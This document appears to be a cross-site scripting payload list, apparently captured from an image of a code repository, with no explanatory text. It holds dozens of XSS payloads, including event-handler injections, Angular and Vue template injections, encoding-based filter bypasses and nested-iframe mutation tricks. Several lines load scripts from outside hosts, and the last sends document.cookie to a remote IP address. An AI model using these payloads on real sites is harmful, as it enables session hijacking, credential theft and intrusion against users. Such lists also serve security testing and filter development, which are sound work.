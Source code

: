
 %E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80 
 "/></a></><img src=1.gif onerror=alert(2);>
 ”/>&_lt;_script>alert(3)&_lt;/scr_ipt>”/>
 [click this link](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
<img src=\"test\" onerror=\"alert(document.domain)\">
{ "comment": { "id": <comment-id>, "body": "blahblah", "body_html": "blah<img src=x onerror=alert(0);>" } }
<img src=x oneonerrorrror=alert(String.fromCharCode(120,61,97,108,101,114,116,40,49,41));>
{{$on.constructor('alert(4)')()}}
{{$el.ownerDocument.defaultView.alert(1)}}
{{location='javascript:alert\x281\x29'}}
<script>{onerror=alert}throw 1</script>
<iframe>13"-->">'` -- `<!--<img src="--><img src=x onerror=(prompt)(`Ex.Mi`);(prompt)(document.cookie);location=`https://ex-mi.ru`;>

<x @click=$event.view.alert(5)>click</x>
<x v-bind:is="'script'" src="//14.rs" />
<x is=script src=//⑭.₨>
<component is=script src=//⑭.₨>
<strike onpointerover="alert(6)">XSS</strike>
<small onmouseenter="alert(7)">test</small>
<strong onkeyup="alert(8)" contenteditable="true">test</strong>
<spacer onmouseup="alert(9)">test</spacer>
<source id="x" tabindex="1" onbeforedeactivate="alert(10)"><input autofocus="autofocus">
<s onpointerenter="alert(11)">XSS</s>
<rt onmouseleave="alert(12)">test</rt>
<progress onpointerdown="alert(13)">XSS</progress>
<marquee onpointerover="alert(14)">XSS</marquee>
<mark onpointerup="alert(15)">XSS</mark>
<legend onmouseenter="alert(16)">test</legend>
<kbd ondblclick="alert(17)" autofocus="autofocus" tabindex="1">test</kbd>
<frameset onpointerleave="alert(18)">XSS</frameset>
<frameset onanimationend="alert(19)" style="animation-name: x;"></frameset>
<frameset onmousedown="alert(20)">test</frameset>
<frameset onbeforepaste="alert(21)" contenteditable="true">test</frameset>
<frameset id="x" tabindex="1" ondeactivate="alert(22)"></frameset>
{{-function(){this.alert(23)}()}}
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(25)')()}}

<!'/*"/*/'/*/"/*--><iframe/src \/\/onload = prompt(1)<x oncut=alert()>x<svg onload=alert(document.domain)>
<iframe>“><img src=x onerror=alert(2)>


<iframe><iframe><b><noscript>&lt;/noscript&gt;<x v-bind:is="'script'" src="//14.rs" /></noscript></b></iframe>
<iframe><iframe></iframe></iframe><b><noscript></noscript><iframe onload="setTimeout(/alert(26)/.source)"></iframe></b>
<iframe><iframe><iframe onload="setTimeout(/alert(26)/.source)"></iframe>
<iframe><iframe onload="setTimeout(/alert(27)/.source)">
<FRAMESET><FRAMESET><b><noscript></noscript><x is=script src=//⑭.₨></noscript></b></FRAMESET>
<IFRAME><IFRAME><b><noscript></noscript><x is=script src=//14.rs></noscript></b></IFRAME>
<iframe><iframe><b><noscript></noscript><x is=script src=//14.rs></noscript></b></iframe>
<iframe><iframe><b><noscript></noscript><x is=script src=//blackfly06.xss.ht></noscript></b></iframe>
  "/></a></><img src=1.gif onload=prompt(28);>
 <script>window['alert'](document['domain'])</script>
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
<svg onload=prompt%26%230000000040document.domain)>
"><textarea autofocus onfocus=co\u006efir\u006d()>"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;document.domain&rpar;&gt;">

 <img src='/static/demos/GEECS'><img src=x onerror=alert(/DOM-XSS/)>.jpg' />
 <a href=javas&#99;ript:alert(29)>click
 “><svg/onload=alert(document.domain)>”@x.y
 <details open ontoggle=confirm()>
 #'><img src=x onerror=alert(/DOM-XSS/)>
 <audio src/onerror=alert(30)>
 <embed src=//14.rs> —
 <d3/onmouseenter=[2].find(confirm)>z on .
 "'..lpe/Title/</Style/</Script/</Textarea/</Noscript/</Pre/</Xmp><Body/OnPageShow=confirm(31)>#
 `</title><base href="https://mrvueoqjum08.redir.bugpoc.ninja/"><input id="fileIntegrity" value="${fileIntegrity}" />`
 <IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
 <script>new Image().src="http://193.112.33.32/?cookie=" + document.cookie;</script>
